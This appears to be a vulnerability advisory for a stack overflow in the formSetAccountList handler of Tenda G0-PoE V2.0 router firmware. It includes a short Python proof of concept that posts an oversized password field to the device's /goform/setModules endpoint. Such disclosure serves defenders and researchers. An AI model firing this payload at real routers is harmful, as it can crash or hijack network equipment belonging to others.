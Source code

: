 # Tenda G0-PoE V2.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-PoE V2.0

version: V16.01.11.6(3657)

type: Stack Overflow
### Vulnerability Description
Tenda G0-PoE V2.0 V16.01.11.6(3657) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 32、38, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v18`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0poe-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
